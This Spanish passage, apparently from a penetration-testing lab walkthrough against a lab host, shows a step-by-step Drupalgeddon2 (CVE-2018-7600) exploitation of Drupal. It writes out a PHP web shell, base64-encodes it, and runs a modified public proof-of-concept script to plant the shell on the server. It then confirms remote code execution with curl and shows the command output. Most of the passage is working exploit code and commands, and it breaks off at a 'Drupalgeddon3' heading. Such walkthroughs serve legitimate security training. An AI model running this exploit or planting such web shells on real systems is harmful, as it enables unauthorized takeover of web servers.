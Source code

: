 Podemos verificar rápidamente con `cURL` y ver que el archivo `hello.txt` fue efectivamente subido.

```bash
curl -s http://drupal-dev.inlanefreight.local/hello.txt

;-)
```

Ahora vamos a modificar el script para obtener ejecución remota de código subiendo un archivo PHP malicioso.

```php
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>
```

```bash
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K
```

A continuación, reemplazamos el comando `echo` en el script de explotación con un comando para escribir nuestro script PHP malicioso.

```bash
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```

Luego, ejecutamos el script de explotación modificado para subir nuestro archivo PHP malicioso.

```python
python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/mrb3n.php
```

Finalmente, podemos confirmar la ejecución remota de código usando `cURL`.

```bash
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Drupalgeddon3
